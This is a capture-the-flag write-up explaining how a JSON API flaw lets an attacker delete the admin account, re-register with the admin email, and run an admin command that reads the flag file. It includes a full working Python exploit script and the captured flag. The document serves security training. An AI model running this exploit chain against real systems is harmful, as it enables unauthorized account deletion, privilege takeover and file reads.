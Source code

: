 # Cybercrime Society Club Germany
> You are agent Json Bourne. Your mission: Hack this new cybercrime website before it is too late.

## About the Challenge
We were given a website and a source code (You can download the source code [here](cybercrime-society-club-germany.zip))

![preview](images/preview.png)

There are 2 features, login and signup. Here is the preview of the signup feature

![signup](images/preview_signup.png)

And here is the preview of login feature

![login](images/preview_login.png)

## How to Solve?
This is a stolen challenge from `Cyber Security Rumble 2022 - Robert is a gangsta` (You can see the writeup [here](https://www.norelect.ch/writeups/csr2022/robertisagansta/)). But there is a difference where we're not only just create an account, but we need to set the email to `admin@cscg.de`

```python
def is_admin(self, email):
    user = self.db.get(email)
    if user is None:
        return False

    #TODO check userid type etc
    return user["email"] == "admin@cscg.de" and user["userid"] > 90000000
```

And to bypass this we create a random user and then delete our account with the admin account by sending this HTTP request

```
POST /json_api HTTP/1.1
Host: example
Cookie: auth=28379856-e66b-4121-a8fb-5b6d90f68c87
...

{"action":"delete_account","data":{"email":"example@mail.com","test":"admin@cscg.de"}}
```

Why we can delete the admin account too? Let's take a look at delete account function

```python
def api_delete_account(data, user):
    if user is None:
        return error_msg("not logged in")

    if data["data"]["email"] != user["email"]:
        return error_msg("Hey thats not your email!")

    # print(list(data["data"].values()))
    if delete_accs(data["data"].values()):
        return success_msg("deleted account")
```

This code utilizes `data["data"].values()` to delete user accounts. Consequently, if we input two sets of key values in the JSON, the program will delete these two accounts.

And after we delete the admin account, create another user and then change the user email to `admin@cscg.de`. And voilà

![admin](images/admin.png)

I am using the source code from this [blog](https://www.norelect.ch/writeups/csr2022/robertisagansta/) to solve the problem, and I have made some edits.

```python
import requests

s1 = requests.Session()

print("Creating account")
s1.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "create_account",
    "data": {
        "email": "info@example.com",
        "password": "whatever",
        "groupid": ".0E",
        "userid": "9998",
        "activation": ["{:0>4}".format(i) for i in range(10000)]
    }
})

print("Login")
s1.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "login",
    "data": {
        "email": "info@example.com",
        "password": "whatever"
    }
})

print("Delete admin")
s1.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "delete_account",
    "data": {
        "email": "info@example.com",
        "test": "admin@cscg.de"
    }
})


s2 = requests.Session()

print("Creating account again")
req1 = s2.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "create_account",
    "data": {
        "email": "info@example.com",
        "password": "whatever",
        "groupid": ".0E",
        "userid": "9998",
        "activation": ["{:0>4}".format(i) for i in range(10000)]
    }
})

print("Login")
s2.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "login",
    "data": {
        "email": "info@example.com",
        "password": "whatever"
    }
})

print("Change email to admin")
s2.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "edit_account",
    "data": {
        "email": "admin@cscg.de"
    }
})

print("Executing command")
r2 = s2.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "admin",
    "data": {
        "cmd": ["date", "-f", "flag.txt", "-u"]
    }
})

print(r2.json())
```

![flag](images/flag.png)

```
ALLES!{js0n_b0urn3_str1kes_ag4in!}
```